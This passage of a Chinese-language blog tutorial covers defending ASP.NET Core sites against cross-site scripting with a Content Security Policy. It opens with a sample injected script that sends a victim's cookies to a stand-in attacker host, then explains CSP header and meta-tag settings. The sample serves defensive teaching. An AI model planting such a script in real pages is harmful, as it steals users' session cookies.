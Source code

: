 ```yaml
---
title: '[鐵人賽 Day27] ASP.NET Core 2 系列 - 網頁內容安全政策 (Content Security Policy)'
author: John Wu
tags:
  - ASP.NET Core
  - iT 邦幫忙 2018 鐵人賽
  - CSP
  - Security
  - Middleware
categories:
  - ASP.NET Core
date: 2018-01-15 12:00
featured_image: /images/i27-3.png
---
```


跨網站腳本 (Cross-Site Scripting, XSS) 攻擊是常見的攻擊手法，有效的阻擋方式是透過網頁內容安全政策 (Content Security Policy, CSP) 規範，告知瀏覽器發出的 Request 位置是否受信任，阻擋非預期的對外連線，加強網站安全性。  
本篇將介紹 ASP.NET Core 自製 CSP Middleware 防止 XSS 攻擊。  
另外，做範例的過程中，剛好發現 **iT 邦幫忙** 沒有擋 Clickjacking，所以就順便補充。  

> iT 邦幫忙 2018 鐵人賽 - Modern Web 組參賽文章：  
 [[Day27] ASP.NET Core 2 系列 - 網頁內容安全政策 (Content Security Policy)](https://ithelp.ithome.com.tw/articles/10196896)  



## XSS 介紹

攻擊者可能透過任何形式的漏洞，在網站中安插惡意的程式碼，例如：  
```html
<script>
    var req = new XMLHttpRequest();
    req.open("GET", "https://attacker.johnwu.cc?cookie="+document.cookie);
    req.send();
</script>
```
當使用者開啟頁面，Cookie 就被送走了。情境如下：  

![[鐵人賽 Day27] ASP.NET Core 2 系列 - 網頁內容安全政策 (Content Security Policy) - XSS 介紹](/images/i27-3.png)  

## CSP 介紹

CSP 是瀏覽器提供網站設定白名單的機制，網站可以告知瀏覽器，該網頁有哪些位置可以連、哪些位置不能連。現行大部分的瀏覽器都有支援 CSP，可以從 [Can I use Content Security Policy](http://caniuse.com/contentsecuritypolicy) 查看支援的瀏覽器及版本。  

CSP 的設定方式有兩種：  
1. HTTP Header 加入 `Content-Security-Policy: {Policy}`  
  當有不符合安全政策的情況，瀏覽器就會提報錯誤， **並終止該行為執行**。  
2. HTTP Header 加入 `Content-Security-Policy-Report-Only: {Policy}`  
  當有不符合安全政策的情況，瀏覽器就會提報錯誤， **但會繼續執行** 。  
  > 主要用於測試用，怕網站直接套上 CSP 導致功能不正常。  
3. HTML 加入 `<meta>`  
  在 HTML `<head>` 區塊加入 `<meta http-equiv="Content-Security-Policy" content="{Policy}">`。  
  當有不符合安全政策的情況，瀏覽器就會提報錯誤， **並終止該行為執行**。  
  > `<meta>` 的方式不支援 **Report-Only** 的方式。  
